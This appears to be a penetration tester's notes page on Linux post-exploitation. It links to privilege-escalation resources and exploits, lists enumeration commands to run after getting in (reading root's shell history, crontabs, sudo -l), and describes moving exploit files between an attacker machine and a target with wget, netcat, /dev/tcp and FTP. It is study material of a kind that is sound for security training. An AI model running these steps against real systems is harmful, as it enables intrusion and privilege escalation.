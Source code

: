 # Linux Post Exploitation

## Resources
- [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
- [Sushant 747's Guide (Country dependant - may need VPN)](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)

### Exploring Automated Tools
- LinPEAS: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- Linux exploit suggester: https://github.com/mzet-/linux-exploit-suggester
- LinuxPrivChecker: https://github.com/sleventyeleven/linuxprivchecker

### Escalation Path: Kernel Exploits
- Kernel Exploits: https://github.com/lucyoa/kernel-exploits

### Escalation Path: Sudo
- GTFOBins: https://gtfobins.github.io/
- LinuxPrivEscPlayground: https://tryhackme.com/room/privescplayground
- wget example: https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/
- dirsearch: https://github.com/maurosoria/dirsearch
- CMS Made Simple ExploitDB: https://www.exploit-db.com/exploits/46635
- CVE-2019-14287 ExploitDB: https://www.exploit-db.com/exploits/46635
- CVE-2019-18634 GitHub: https://github.com/saleemrashid/sudo-cve-2019-18634

### Escalation Path: Other SUID Escalation
- Nginx Exploit: http://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

### Escalation Path: Capabilities
- Priv Esc using Capabilities: https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
- SUID vs. Capabilities: https://mn3m.info/posts/suid-vs-capabilities/
- Capabilites Priv Esc w/ OpennSLL and Selinux enabled and enforced: https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

## Commands to Run on Connecting
````bash
ls -latr / 
ls -latr /tmp 
ls -latr . 
ls -latr .. 
ls -latr /root 
ps -elf 
ifconfig 
netstat -auntp 
w 
ls -latr /var/spool/cron 
tail -n 1000 #files in /var/spool/cron/ 
date; date -u 
uname -a 
df 
ls -latr /var/*acc* 
ls -latr /var/*log*/ 
ls -latr /var/log/* 
cat out relevant files #grep for your logged in user account 
ls -la /etc/*syslog* read all the config files 
for user in $(cut -f1 -d: /etc/passwd); do echo "###### $user crontab is:"; cat /var/spool/cron/{crontabs/$user,$user} 2>/dev/null; done 
cat /etc/crontab 
ls -la /etc/cron.* 
#As needed, examine the files/scripts shown in the directory listing of the cron.* directories 
find / \( -path /proc -prune -o -path /sys -prune \) -o -mmin -{duration since initial connection} -type f -print0 | xargs -0 ls -latr #NOTE there is a "-" a.k.a minus symbol preceding the "<duration since initial connection"> 
sestatus OR getenforce 
cat /root/.bash_history 
cat ~/.bash_history
history
sudo -l
````

## File Transfers
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65 

**Python** 

1. To transfer exploits. On the attack machine run the following in the folder that has the exploit: 

`python -m SimpleHTTPServer `

-or- 

`python3 -m http.server 8081 ([Optional: port]) `

2. On the target machine I pull the file with: 

`wget [attack box ip] :8000/[filename] `

**Linux -> Windows (Base 64)**
***

1.  Copy contents 

`base64 [file] | xclip -selection -clipboard` 

2. On Windows: open notepad, paste and save as txt on desktop 

3. On Windows terminal, cd to desktop run: 

`certutil -decode [file].txt [file].exe` 

**Netcat**
*** 

1. On target host:  

`nc -lvp 8080 > /root/Desktop/transfer.txt` 

2. On attack box:  

`nc [target ip] 8080 < /root/Desktop/transfer.txt`

**File Transfer With /dev/tcp**
***

- Once you send with /dev/tcp it doesn’t wait for any more data. This method is useful for host that does not have NETCAT available. 

1. On target host:  

`nc -lp 1111 > file.txt` 

2. On attack box:  

`cat file.txt > /dev/tcp/10.2.0.2/1111` 

**FTP**
***
1. Host the files from your attacker machine: `python -m pyftpdlib 21`
2. Connect to ftp from the target machine: `ftp {attacker IP}`